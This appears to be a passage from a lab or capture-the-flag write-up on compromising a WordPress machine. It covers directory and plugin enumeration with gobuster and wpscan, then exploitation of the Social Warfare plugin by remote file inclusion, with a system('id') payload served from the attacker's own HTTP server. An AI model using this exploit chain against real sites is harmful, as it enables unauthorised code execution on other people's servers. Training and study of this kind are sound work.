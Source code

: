 The web servers shows only an image on the web page and nothing else

![](https://i.imgur.com/ACQ2EMQ.png)

Fuzzing for files and directories with gobuster reveals wordpress directory

```bash
gobuster dir -u 'http://192.168.123.78'
```

![](https://i.imgur.com/3IAYD8Z.png)

![](https://i.imgur.com/FAnYp6o.png)

We can start enumerating wordpress through wp-scan to scan for plugins and usernames

```bash
wpscan --url 'http://192.168.123.78/wordpress/' -eu
```

This finds two users admin and max

![](https://i.imgur.com/nlDpXCx.png()

On enumerating plugins it finds two of them as well

```bash
wpscan --url 'http://192.168.123.78/wordpress/' -ep  
```

![](https://i.imgur.com/saJoLqM.png)

Social warfare and Simple-cart-solution

##### Foothold

We can search for exploits related to these plugins out of which Social Warfare was vulnerable to unauthenticated remote code execution

![](https://i.imgur.com/kuLPBtd.png)

Following the proof of concept, we need to host the payload which will have any command, here I'll show the output of id command and through RFI on swap_url, it will accept that file as input and will execute it through system function

The payload file have this content 

```bash
<pre>system('id')</pre>
```

![](https://i.imgur.com/HHDNesE.png)

Hosting it through "python3 -m http.server 3333", making a request to this url with our payload file

```bash
http://192.168.123.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.49.123:3333/payload.txt
```
